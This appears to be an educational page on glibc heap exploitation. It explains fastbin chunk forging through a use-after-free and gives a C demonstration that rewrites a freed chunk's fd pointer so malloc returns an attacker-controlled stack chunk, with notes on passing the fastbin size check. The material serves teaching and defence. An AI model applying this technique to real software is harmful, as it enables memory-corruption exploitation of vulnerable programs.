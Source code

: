# Forging chunks

After a chunk is freed, it is inserted in a binlist. However, the pointer is still available in the program. If the attacker has control of this pointer, he/she can modify the linked list structure in bins and insert his/her own 'forged' chunk. The sample program shown below shows how this is possible in the case of fastbin freelist.

```c
struct forged_chunk {
  size_t prev_size;
  size_t size;
  struct forged_chunk *fd;
  struct forged_chunk *bck;
  char buf[10];               // padding
};

// First grab a fast chunk
a = malloc(10);               // 'a' points to 0x219c010

// Create a forged chunk
struct forged_chunk chunk;    // At address 0x7ffc6de96690
chunk.size = 0x20;            // This size should fall in the same fastbin
data = (char *)&chunk.fd;     // Data starts here for an allocated chunk
strcpy(data, "attacker's data");

// Put the fast chunk back into fastbin
free(a);
// Modify 'fd' pointer of 'a' to point to our forged chunk
*((unsigned long long *)a) = (unsigned long long)&chunk;
// Remove 'a' from HEAD of fastbin
// Our forged chunk will now be at the HEAD of fastbin
malloc(10);                   // Will return 0x219c010

victim = malloc(10);          // Points to 0x7ffc6de966a0
printf("%s\n", victim);       // Prints "attacker's data" !!
```

The forged chunk's size parameter was set equal to 0x20 so that it passes the security check "malloc(): memory corruption (fast)". This check checks whether the size of the chunk falls in the range for that particular fastbin. Also, note that the data for an allocated chunk starts from the 'fd' pointer. This is also evident in the above program as `victim` points `0x10` (0x8+0x8) bytes ahead of the 'forged chunk'.

The state of the particular fastbin progresses as:

1. 'a' freed.
  > head -> a -> tail
2. a's fd pointer changed to point to 'forged chunk'.
  > head -> a -> forged chunk -> undefined (fd of forged chunk will in fact be holding attacker's data)
3. 'malloc' request
  > head -> forged chunk -> undefined
4. 'malloc' request by victim
  > head -> undefined   [ forged chunk is returned to the victim ]

Note the following:

* Another 'malloc' request for the fast chunk in the same bin list will result in segmentation fault.
* Even though we request for 10 bytes and set the size of the forged chunk as 32 (0x20) bytes, both fall in the same fastbin range of 32-byte chunks.
* This attack for small and large chunks will be seen later as 'House of Lore'.
* The above code is designed for 64-bit machines. To run it on 32-bit machines, replace `unsigned long long` with `unsigned int` as pointers are now 4 bytes instead of 8 bytes. Also, instead of using 32 bytes as size for forged chunk, a small of the size of around 17 bytes should work.
